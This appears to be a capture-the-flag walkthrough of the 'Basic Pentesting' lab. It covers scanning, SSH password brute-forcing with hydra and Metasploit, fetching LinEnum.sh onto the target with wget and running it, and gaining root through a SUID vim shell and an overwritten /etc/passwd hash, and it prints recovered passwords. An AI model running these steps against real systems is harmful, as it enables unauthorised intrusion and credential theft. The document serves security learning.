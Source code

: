 # BASIC PENTESTING

```
export IP=10.10.126.249
```

```
nmap -sC -sV -oN nmap.out $IP 
```

open ports (nmap.out):
```
22/tcp   open  ssh         syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        syn-ack Apache httpd 2.4.18 ((Ubuntu))
139/tcp  open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
8009/tcp open  ajp13       syn-ack Apache Jserv (Protocol v1.3)
8080/tcp open  http        syn-ack Apache Tomcat 9.0.7
```

```
gobuster dir -u $IP -w /opt/dirbuster/directory-list-2.3-medium.txt -x php,py,html,css,cgi,txt,js -o gobuster.out
```
directories (gobuster.out):
```
/.html                (Status: 403) [Size: 293]
/index.html           (Status: 200) [Size: 158]
/development          (Status: 301) [Size: 320] [--> http://10.10.100.203/development/]                               
```

```
gobuster dir -u $IP:8080 -w /opt/dirbuster/directory-list-2.3-medium.txt -x php,py,html,css,cgi,txt,js -o gobuster8080.out
```
directories (gobuster8080.out):
```
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/manager              (Status: 302) [Size: 0] [--> /manager/]
/tomcat.css           (Status: 200) [Size: 5581]
```

```
/opt/enum4linux/enum4linux.pl -a $IP | tee enum4linux.out
```
users (enum4linux.out):
```
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)
```

```
nikto -h $IP | tee nikto.out
```
nikto.out:
```
+ Server: Apache/2.4.18 (Ubuntu)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ /: Server may leak inodes via ETags, header found with file /, inode: 9e, size: 56a870fbc8f28, mtime: gzip. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418
+ OPTIONS: Allowed HTTP Methods: GET, HEAD, POST, OPTIONS .
+ /development/: Directory indexing found.
+ /development/: This might be interesting.
+ /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/
+ 8074 requests: 0 error(s) and 8 item(s) reported on remote host
+ End Time:           2023-09-10 15:05:00 (GMT-3) (2736 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

metasploit:
```
grep login search ssh
use 49
set RHOSTS 10.10.126.249
set user_pass /opt/seclists/Passwords/Common-Credentials/10k-most-common.txt
run
```

hydra:
```
hydra -l jan -P /opt/seclists/Passwords/Leaked-Databases/rockyou.txt ssh://10.10.126.249   
```
```
hydra -l kay -P /opt/seclists/Passwords/Leaked-Databases/rockyou.txt ssh://10.10.126.249   
```

results:
```
[22][ssh] host: 10.10.126.249   login: jan   password: armando  

(kay's password still not found)
```
login into jan's system:
```
ssh jan@$IP
armando
```
open a server, upload LinEnum.sh from your machine and download it in the target machine:

```
python3 -m http.server 3333
``` 
```
cd /tmp/
wget http://my_ip://LinEnum.sh
chmod 777 LinEnum.sh
./LinEnum.sh
```

Basic.Vim is listed as SUID. Open Vim and enter !sh to open a shell with root privileges, then generate a new password and replace root's password in /etc/passwd:

```
openssl passwd -1 -salt root 123
vim /etc/passwd
su root
123
```
now, as root, go to home/kay and read the "pass.bak" file

```
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```